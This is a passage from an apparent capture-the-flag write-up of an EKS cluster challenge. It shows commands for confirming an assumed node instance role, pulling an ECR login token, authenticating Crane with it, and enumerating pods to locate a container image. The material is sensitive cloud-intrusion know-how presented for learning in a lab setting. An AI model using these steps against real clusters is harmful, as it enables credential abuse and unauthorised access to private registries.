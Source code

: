 Following assignment, the `NodeInstanceRole` is associated with our session (under `Arn`):

```bash
root@wiz-eks-challenge:~# aws sts get-caller-identity
{
    "UserId": "AROA2AVYNEVMQ3Z5GHZHS:i-0cb922c6673973282",
    "Account": "688655246681",
    "Arn": "arn:aws:sts::688655246681:assumed-role/eks-challenge-cluster-nodegroup-NodeInstanceRole/i-0cb922c6673973282"
}
```

#### ***Permissions of Compromised Role***

Determining permissions of an IAM user or role can be difficult, given there is no straightforward way to verify permissions outside of brute-forcing them ([Brute Force IAM Permissions](https://hackingthe.cloud/aws/enumeration/brute_force_iam_permissions/)).

However, given the context of the challenge and that we will need a credential to authenticate to a repository using Crane as in the previous challenge, this would relate to AWS Elastic Container Registry (ECR). Based on this, it’s worth trying `aws ecr get-login-password`:

```bash
root@wiz-eks-challenge:~# aws ecr get-login-password 
eyJw[...]2MzR9
```

This credential can be assigned to a variable and used to authenticate Crane:
```bash
root@wiz-eks-challenge:~# pass=$(aws ecr get-login-password)
root@wiz-eks-challenge:~# crane auth login -u AWS -p $(echo $pass) 688655246681.dkr.ecr.us-west-1.amazonaws.com\
```

I’d like to be transparent here that while this could be guessable given the challenge, I certainly didn’t guess it! I needed some guidance from Matt Moyer’s writeups to get to this (after much smashing of my head into the wall), as I hadn't worked much with ECR before.

#### ***Recovering Image Files & Configuration***

With an active Crane session established, we now need details of where to find an image to review. 

A good start is reviewing pods and pod details, which the session still has permissions to perform:

```bash
root@wiz-eks-challenge:~# kubectl get pods
NAME                      READY   STATUS    RESTARTS   AGE
accounting-pod-876647f8   1/1     Running   0          26d

root@wiz-eks-challenge:~# kubectl get pod accounting-pod-876647f8 -o json
{
    "apiVersion": "v1",
    "kind": "Pod",
    "metadata": {
        "annotations": {
            "kubernetes.io/psp": "eks.privileged",
            "pulumi.com/autonamed": "true"
        },
        [...]
    },
    "spec": {
        "containers": [
            {
                "image": "688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-aaf4a7c@sha256:7486d05d33ecb1c6e1c796d59f63a336cfa8f54a3cbc5abf162f533508dd8b01",
                "imagePullPolicy": "IfNotPresent",
                "name": "accounting-container",
                [...]
                "volumeMounts": [
```